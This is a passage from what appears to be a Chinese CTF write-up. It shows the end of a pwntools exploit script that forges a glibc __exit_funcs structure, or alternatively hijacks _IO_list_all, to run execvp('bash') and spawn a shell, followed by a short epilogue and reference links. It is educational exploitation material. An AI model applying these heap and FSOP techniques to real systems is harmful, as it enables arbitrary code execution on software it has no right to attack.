        info(GREEN_TEXT(f"Alloc @ {libc.symbols['_IO_list_all'] - 16:#x} to hijack IO"))
        newlog(80, False, b' ' * 5 + p64(forgedFileAddr))
        backdoorIdx = 10

    else: # do not use FSOP
        newlog(256, False, 
                b'I found a new solution, writing __exit_funcs!' \
                .ljust(0x65 - 12) + b'\n')
        initial = libc.address + 0x204fc0
        newlog(0xa0, False, b' ' * 5 + p64(initial - 0x68))
        newlog(0xa0, True, b'ignored')
        displaylog()

        newlog(0xa0, False, b"Finally, write __exit_funcs to run execvp at exit")
        info(GREEN_TEXT(f"Alloc @ {initial - 0x68:#x} to hijack exit"))
        # fake initial struct @ logs idx 12
        fakeInitial = flat({
            0x38:   1,       # __new_exitfn_called
            0x60:   1,       # initial+8
            0x68:   4,
            0x70:   libc.symbols['execvp'],
            0x78:   initial - 0x68 + 11
            }, filler=b'\0')
        newlog(0xa0, False, b'bash\0' + fakeInitial)
        backdoorIdx = 12

    backdoor(True)
    logout()
    backdoor(False, backdoorIdx)

    sh.clean()
    sh.interactive()
    sh.close()
```

## 尾声

尽管放了提示，但是8小时，没有师傅能做出我的题，感觉有些遗憾。
各位师傅有什么想问的都可以在discussion中问。

## 参考

1. [House of apple 一种新的glibc中IO攻击方法 (3) ](https://bbs.kanxue.com/thread-273863.htm)
2. [Bypassing vtable Check in glibc File Structures](https://blog.kylebot.net/2022/10/22/angry-FSROP/)
3. [failed to load pickle](https://github.com/Kyle-Kyle/angry-FSROP/issues/1)
